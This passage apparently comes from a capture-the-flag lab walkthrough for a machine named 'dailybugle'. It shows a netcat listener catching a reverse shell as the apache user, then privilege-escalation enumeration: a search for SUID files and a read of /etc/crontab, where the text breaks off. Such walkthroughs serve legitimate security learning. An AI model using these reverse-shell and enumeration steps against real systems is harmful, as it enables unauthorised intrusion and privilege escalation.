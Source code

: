 ```sh
$ nc -lvnp 4444                                                                                  2m 14s 11:34:23 PM
listening on [any] 4444 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.8.219] 36518
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:53:06 up  3:30,  0 users,  load average: 0.00, 0.01, 0.05
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=48(apache) gid=48(apache) groups=48(apache)
 sh: no job control in this shell
 sh-4.2$ 
```

### Privilege Escalation

#### User

##### SUID

Let us start by enumerating files that have a SUID bit set:

```sh
sh-4.2$ find / -type f -perm -04000 -ls 2>/dev/null
 98415   76 -rwsr-xr-x   1 root     root        73888 Aug  8  2019 /usr/bin/chage
  98416   80 -rwsr-xr-x   1 root     root        78408 Aug  8  2019 /usr/bin/gpasswd
	159662   24 -rws--x--x   1 root     root        23968 Aug  8  2019 /usr/bin/chfn
	159665   24 -rws--x--x   1 root     root        23880 Aug  8  2019 /usr/bin/chsh
	 98419   44 -rwsr-xr-x   1 root     root        41936 Aug  8  2019 /usr/bin/newgrp
	 159713   32 -rwsr-xr-x   1 root     root        32128 Aug  8  2019 /usr/bin/su
	 741488  144 ---s--x--x   1 root     root       147320 Aug  8  2019 /usr/bin/sudo
	 159698   44 -rwsr-xr-x   1 root     root        44264 Aug  8  2019 /usr/bin/mount
	 159717   32 -rwsr-xr-x   1 root     root        31984 Aug  8  2019 /usr/bin/umount
	 438054   60 -rwsr-xr-x   1 root     root        57656 Aug  8  2019 /usr/bin/crontab
	 410127   24 -rwsr-xr-x   1 root     root        23576 Aug  8  2019 /usr/bin/pkexec
	 741450   28 -rwsr-xr-x   1 root     root        27856 Aug  8  2019 /usr/bin/passwd
	 8818454   36 -rwsr-xr-x   1 root     root        36280 Apr 10  2018 /usr/sbin/unix_chkpwd
	 8818452   12 -rwsr-xr-x   1 root     root        11216 Apr 10  2018 /usr/sbin/pam_timestamp_check
	 8877038   12 -rwsr-xr-x   1 root     root        11296 Aug  8  2019 /usr/sbin/usernetctl
	 25506129   16 -rwsr-xr-x   1 root     root        15432 Aug  8  2019 /usr/lib/polkit-1/polkit-agent-helper-1
	 25506116   60 -rwsr-x---   1 root     dbus        58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
```

Unfortunatey there isn't anything helpful here.

##### Crontab

```sh
sh-4.2$ cat /etc/crontab
cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
```